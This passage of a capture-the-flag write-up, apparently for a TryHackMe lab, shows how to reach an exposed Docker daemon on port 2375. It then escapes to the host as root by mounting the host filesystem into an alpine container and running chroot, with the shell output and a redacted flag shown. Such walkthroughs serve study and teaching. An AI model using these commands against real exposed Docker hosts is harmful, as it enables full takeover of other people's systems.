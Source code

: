```bash
```
### Access Docker

Then we can access the docker. First lets check the image of docker :

`$ docker -H 10.10.50.223:2375 images`

![img](/assets/thm_thegreatescape/bg_8.png)

`$ docker -H 10.10.50.223:2375 ps`

![img](/assets/thm_thegreatescape/bg_9.png)

## Escape From Docker

in this case im going to exploit alpine to escape the docker.[here](https://gtfobins.github.io/gtfobins/docker/#shell) the link i found for exploit this.
`docker -H 10.10.50.223:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash`

```bash
$ docker -H 10.10.50.223:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash                             1 ⚙
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@0f47e2d39595:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@0f47e2d39595:/# cd /root
root@0f47e2d39595:~# ls
flag.txt
root@0f47e2d39595:~# cat flag.txt 
Congrats, you found the real flag!

THM{c----------REDACTED------------4}
root@0f47e2d39595:~#
``` 
Boom we can escape the docker. Now for looking the flag of web we can access frontend in the docker.
`$ docker -H 10.10.50.223:2375 exec -it dockerescapecompose_frontend_1 /bin/bash`

